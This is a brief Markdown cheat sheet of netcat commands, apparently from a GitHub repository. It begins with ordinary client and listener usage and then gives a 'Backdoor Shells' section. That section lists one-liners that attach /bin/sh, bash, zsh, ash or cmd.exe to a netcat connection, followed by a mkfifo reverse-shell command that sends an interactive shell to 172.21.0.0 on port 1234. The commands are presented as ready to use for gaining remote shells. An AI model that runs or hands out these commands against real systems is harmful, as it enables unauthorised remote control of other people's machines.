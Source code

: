 # Netcat Tips

## Fundamentals:

Connect to a netcat client:
- `rlwrap nc [IP Address] [port]`

Connect to a netcat Listener:
- `rlwrap nc -lvp [Localport]`

Listen on a TCP port:
- `rlwrap nc -lvp [Localport]`

Listen on a UDP port:
- `rlwrap nc -lvup [port]`

More info on rlwrap: https://linux.die.net/man/1/rlwrap

## Backdoor Shells: 

Linux: 

- `rlwrap nc [Your IP Address] -e /bin/sh`
- `rlwrap nc [Your IP Address] -e /bin/bash`
- `rlwrap nc [Your IP Address] -e /bin/zsh`
- `rlwrap nc [Your IP Address] -e /bin/ash`

Windows: 

- `rlwrap nc -lv [localport] -e cmd.exe`

Linux netcat reverse shell: 

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 172.21.0.0 1234 >/tmp/f`